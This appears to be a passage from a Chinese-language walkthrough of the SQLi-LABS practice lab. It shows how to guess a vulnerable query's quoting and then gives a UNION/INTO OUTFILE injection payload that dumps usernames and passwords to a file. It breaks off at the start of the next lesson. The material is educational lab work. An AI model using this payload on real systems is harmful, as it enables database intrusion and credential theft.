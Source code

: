 + 首先我们尝试使用单引号看看会不会报错。经过测试会出现错误。

![image-20210924202801469](../../images/SQLi-LABS/image-20210924202801469.png)

+ 这次的错误信息没有给我很好提示，我们只能靠猜（由于我们前面已经知道该查询列数有三个）：

```sql
# 错误
select column1, column2, column3 from users where id = '$id' limit 0,1
# 错误
select column1, column2, column3 from users where id = "$id" limit 0,1
# 错误
select column1, column2, column3 from users where id = ('$id') limit 0,1
# 错误
select column1, column2, column3 from users where id = ("$id") limit 0,1
# 正确
select column1, column2, column3 from users where id = (('$id')) limit 0,1
```

+ 我们可以靠上面猜测的SQL语句使用`outfile`。

```sql
0')) union select id,username,password from users into outfile '/tmp/mysql.txt' --+
```

## Less-8 Boolean单引号字符串

+ 传入id=1，会返回下列数据。
